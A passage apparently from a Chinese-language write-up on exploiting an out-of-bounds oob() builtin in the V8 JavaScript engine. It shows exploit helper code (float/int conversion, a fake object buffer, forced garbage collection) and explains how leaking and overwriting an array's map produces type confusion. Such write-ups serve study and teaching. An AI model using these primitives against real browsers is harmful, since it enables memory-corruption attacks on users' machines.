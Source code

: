 ```javascript

  itof(i) {
    this.u32[0] = i;
    return this.f32[0];
  }

  f64toi64(f) {
    this.f64[0] = f;
    return this.u64[0];
  }

  i64tof64(i) {
    this.u64[0] = i;
    return this.f64[0];
  }

  clean() {
    this.state.fake_object.fill(0);
  }

  hex(x) {
    return x.toString(16).padStart(16, "0");
  }

  printhex(val) {
    console.log("0x" + val.toString(16));
  }

  add_ref(object) {
    this.state[this.i++] = object;
  }

  gc() {
    new ArrayBuffer(0x7fe00000);
    new ArrayBuffer(0x7fe00000);
    new ArrayBuffer(0x7fe00000);
    new ArrayBuffer(0x7fe00000);
    new ArrayBuffer(0x7fe00000);
  }
}
```

接下来是利用 oob() 实现类型混淆的思路：

- 首先需要明白：JavaScript 中对于对象（[对象结构的复习](#对象结构)）的解析依赖于 `map`：map 指向 `<Map(PACKED_ELEMENTS)>` 时 elements 中元素就会按照 obj 来解析，其他类型同理；
- 而 `oob()` 不带参数（`args.at<Object>(0)` 永远是 self），就可以输出 `elements[length]`，`oob(data)` 就可以在 `elements[length]` 写入 data；
- array 的 elements 也是对象，在内存结构中，往往体现为：elements 紧挨着 array，即：
  - `elements[length]` 的位置上就是 array 的 `map`；
- 因此可以考虑先读出 map，再在另一种 array 的 map 处写入，即实现了类型混淆。
